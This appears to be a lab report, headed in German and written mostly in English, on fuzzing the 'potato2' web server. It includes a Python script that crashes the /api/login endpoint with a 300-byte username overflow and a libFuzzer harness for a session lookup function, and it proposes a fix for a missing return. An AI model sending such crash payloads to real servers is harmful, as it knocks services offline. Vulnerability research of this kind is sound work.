

# Laborbericht: Schwachstellenidentifikation mittels Protokoll-Fuzzing (potato2-Server)

## 1. Einleitung & Methodik
This report documents the analysis and identification of two separate vulnerabilities in the network component (`src/http_server.c` and `src/session.c`) of the **potato2** project. Unlike previous local attacks on the application console (`./potato console`), this approach focuses on automated fuzzing over the network, targeting the HTTP service on port 80 directly.
---

## 2. Schwachstelle 1: Stack Buffer Overflow via `/api/login`

### Test-Skript (`crash_login.py`)

```python
import requests

url = "[http://127.0.0.1/api/login](http://127.0.0.1/api/login)"
bad_username = "A" * 300
payload = {"username": bad_username, "password": "x"}

print("[*] Sending huge payload to /api/login...")

try:
    response = requests.post(url, data=payload, timeout=3)
    print("Response code:", response.status_code)
except Exception as e:
    print("[!] Connection lost! Check the server terminal for a Segmentation fault!")
```


As documented in the screenshots from the testing phase, sending a malformed fuzzing input of 300 bytes (`“A” * 300`) to the `username` parameter results in an immediate denial of service. According to the server logs, the application initially processes the POST request up to the `no such user` validation logic and then abruptly terminates immediately afterward. 
The stack frame is completely overflowed. Sending this large number of characters overwrites the administrative metadata on the stack—the saved return pointer. As soon as the function is about to terminate and attempts to jump back to this manipulated address, the operating system intercepts the illegal memory access and terminates the server process with a `segmentation fault`. This is visually confirmed in the browser by the error message *“Problem loading page”*.


For the second attempt this code has been written to do a Fuzzing in the memory.

Used Code:
```python
#include <stdint.h>
#include <stddef.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include "session.h"

extern t_session* sessions[];

int LLVMFuzzerTestOneInput(const uint8_t *data, size_t size) {
    if (size == 0 || size > 512) return 0;
    
    char *mock_cookie = malloc(size + 1);
    if (!mock_cookie) return 0;
    memcpy(mock_cookie, data, size);
    mock_cookie[size] = '\0';

    t_session dummy;
    memset(&dummy, 0, sizeof(dummy));
    strcpy(dummy.session_id, "dummy_sess");
    sessions[99] = &dummy;

    t_session *sess = get_session_by_id(mock_cookie);
    if (sess) {
        volatile t_user *u = sess->logged_in_user; 
        (void)u;
    }

    sessions[99] = NULL; 
    free(mock_cookie);
    return 0;
}
```

By executing it, it compiles the vulnerable get_session_by_id directly into fuzzer session and attacks it locally in memory as can be seen in the screenshot "Segmentation Fault (SEGV)



### Code Triage for Vulnerability 2 (Undefined Behavior in session.c)
During compilation of the fuzzing harness using `clang`, a critical structural vulnerability was identified via compiler diagnostics in `src/session.c`:
`src/session.c:64:1: warning: non-void function does not return a value in all control paths [-Wreturn-type]`

* **Root Cause:** The function `get_session_by_id()` iterates through active sessions. If a fuzzed/non-existent cookie string is provided, the execution path exits the loop and reaches the end of the block without hitting a return statement. 
* **Impact:** This triggers classic Undefined Behavior (UB). The function returns an unpredictable arbitrary value left over in the CPU register instead of a clean pointer. When the calling web server attempts to read from this unvalidated garbage pointer downstream, it leads to memory corruption or application failure.

* **Fix:** Add a default return statement at the end of the function:
```c
// at the very end of get_session_by_id inside src/session.c
return NULL;
```